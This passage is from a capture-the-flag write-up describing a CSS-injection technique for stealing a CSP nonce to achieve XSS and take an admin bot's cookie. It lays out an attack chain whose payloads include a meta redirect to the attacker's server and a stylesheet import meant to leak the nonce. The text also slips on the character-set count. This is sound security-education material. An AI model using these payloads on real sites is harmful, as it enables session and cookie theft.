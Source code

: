 One important thing to note here is that changing the hash will load a new note, which is crucial.

As for the Content Security Policy (CSP), it is as follows:

```html
<meta http-equiv="Content-Security-Policy"
    content="script-src 'nonce-<%= nonce %>'; frame-src 'none'; object-src 'none'; base-uri 'self'; style-src 'unsafe-inline' https://unpkg.com">
```

Each response has a different nonce, which is 32 characters long and consists of alphanumeric characters (a-zA-Z0-9), totaling 36 possible combinations. Inline and unpkg styles are allowed for CSS since unpkg retrieves files from npm, making it equivalent to allowing any external style.

The admin bot can only access `/share/read` and will stay there for 30 seconds. This timeout is likely intended to leak something over time:

``` js
await page.goto(
  `http://localhost/share/read#id=${id}&username=${username}`,
  { timeout: 5000 }
);
await new Promise((resolve) => setTimeout(resolve, 30000));
await page.close();
```

By the way, the flag is in the cookie, so the goal is to achieve XSS.

After reading the challenge, it seemed quite intuitive to me. It was clear that I needed to find a way to steal the nonce using CSS, create a new note after stealing the nonce, and then change the hash to load the new note, thus achieving XSS.

However, there are some small details to consider. For example, the admin bot can only access a specific note, so I needed to use `<meta>` redirect to my own server first, and then use `window.open` to open the new note. This way, after stealing the nonce, I could update the content by changing the hash, ensuring that the nonce remains unchanged.

In summary, the process is as follows:

1. Add a note(id: 0) with the content `<meta http-equiv="refresh" content="0;URL=https://my_server">`.
2. Add another note(id: 1) with the content `<style>@import "https://unpkg.com/pkg/steal.css"</style>`.
3. Make the admin bot access the note with id 0.
4. The admin bot will be redirected to my server, where I can execute arbitrary JavaScript in my origin.
5. Execute `w = window.open(note_id_1)` to start stealing the nonce.
6. Obtain the stolen nonce.
7. Add the final note(id: 2) with the content `<script nonce=xxx></script>`
8. Execute `w.location = '.../share/read#id=2'`.
9. XSS.

The trickiest part in this process is stealing the nonce using CSS.

### Stealing the Nonce with CSS

I had previously researched using CSS to steal data: [Stealing Data with CSS - CSS Injection (Part 1)](https://blog.huli.tw/2022/09/29/en/css-injection-1/). However, the methods mentioned in that article are not applicable to this challenge.
